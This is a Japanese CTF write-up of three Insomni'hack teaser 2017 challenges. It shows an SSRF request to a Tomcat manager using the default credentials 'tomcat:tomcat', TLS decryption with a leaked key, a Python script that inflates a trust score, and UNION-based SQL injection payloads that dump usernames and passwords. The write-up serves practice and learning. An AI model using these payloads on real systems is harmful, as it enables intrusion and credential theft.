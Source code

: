 ```yaml
---
layout: post
title: Insomni'hack teaser 2017のwrite-up
categories: [ctf]
date: 2017-01-23 22:06:00 +0900
---
```


チーム Harekaze で [Insomni'hack teaser 2017](https://teaser.insomnihack.ch/) に参加しました。

最終的にチームで 350 点を獲得し、順位は 69 位 (得点 339 チーム中) でした。うち、私は 3 問を解いて 300 点を入れました。

ということで解いた問題の write-up です。今年はなるべく参加した CTF の write-up を書くよう頑張ります。

## [Web 50] smarttomcat

Latitude に 12、Longitude に 34 を入力して検索すると、`http://smarttomcat.teaser.insomnihack.ch/index.php` に `u=http://localhost:8080/index.jsp?x=12&y=34` という内容で POST をしている様子でした。

試しに `curl -d "u=http://localhost:8080/hoge" http://smarttomcat.teaser.insomnihack.ch/` を実行すると、`Apache Tomcat/7.0.68 (Ubuntu) - Error report` というタイトルの HTML が返ってきました。これで `localhost:8080` で動いているのは Apache Tomcat と分かります。

`http://localhost:8080/manager/html/` を投げると、`This request requires HTTP authentication.` という内容の HTML が帰ってきました。ユーザ名とパスワードをエスパーして `http://tomcat:tomcat@localhost:8080/manager/html/` を投げるとフラグが表示されました。

```
INS{th1s_is_re4l_w0rld_pent3st}
```

## [Forensics 50] The Great Escape - part 1

問題の pcapng 形式のファイルを pcap に変換して NetworkMiner に投げると、`ssc.key` というファイルをアップロードしている様子が確認できました。

`172.31.36.141:443` との通信をこの `ssc.key` で Wireshark を使って復号すると、`FLAG: INS{OkThatWasWay2Easy}` という文字列がありました。

```
INS{OkThatWasWay2Easy}
```

## [Web 200] Shobot

`http://shobot.teaser.insomnihack.ch/?page=article&artid=9'%20or%201;%23` にアクセスしてみると `You're not trusted enough to do this action now!` と怒られました。ソースを見ると

```javascript
var TRUST_ACTIONS = [{
    "parameter": "artid",
    "validation": "ctype_digit",
    "movement": "-30",
    "newTrust": -29
}, {
    "parameter": "artid",
    "validation": "valid_against_sql_pattern",
    "movement": "-70",
    "newTrust": -99
}]
```

とありました。また、`<!--<div class="menu-entry"><a href="?page=admin">Admin</a></div>-->` というような形でリンクがコメントアウトされていました。Cookie の PHPSESSID を削除して `Musclebot` を購入してみると

```javascript
var TRUST_ACTIONS = [{
    "parameter": null,
    "validation": "add_to_cart",
    "movement": 3,
    "newTrust": 4
}, {
    "parameter": null,
    "validation": "valid_cart",
    "movement": 10,
    "newTrust": 14
}]
```

となっていました。自動でロボットの購入をして、`newTrust` を 100 以上にしてくれるスクリプトを書きましょう。

```python
import requests
import uuid

url1 = 'http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart'
url2 = 'http://shobot.teaser.insomnihack.ch/?page=cartconfirm'

while True:
  session_id = str(uuid.uuid4())
  cookies = {
    'PHPSESSID': session_id
  }
  for _ in range(8):
    requests.get(url1, cookies=cookies)
    requests.get(url2, cookies=cookies)
  input(session_id)
```

出力されたセッション ID をセットして `/?page=article&artid=9%27%20or%201;%23` にアクセスしてみると artid が 1 のときに表示されるはずの `Shogirl` のデータが表示されました。SQLi ができるようです。

`9' or 1 order by 5;#` でカラム数を特定、5 個と分かりました。  
`9' and 0 union select 1, group_concat(table_name, 0x3a, column_name), 3, 4, 5 from information_schema.columns where table_schema=database();#` でテーブル名とカラム名を特定、`shbt_user` というテーブルが `shbt_userid` `shbt_username` `shbt_userpassword` というカラムを持つと分かりました。  
`9' and 0 union select 1, group_concat(shbt_username, 0x3a, shbt_userpassword), 3, 4, 5 from shbt_user;#` でそのテーブルからユーザ名とパスワードを抜き出しました。`sh0b0t4dm1n` というユーザは `N0T0R0B0TS$L4V3Ry` というパスワードのようです。

`/?page=admin` にこのユーザ名とパスワードでログインすると、フラグが表示されました。

```
INS{##r0b0tss!4v3ry1s!4m3}
```

## 感想

`[Web 200] The Great Escape - part 2` も解きたかったのですが、体調がよろしくなかったので諦めました。インフルエンザには気を付けましょう。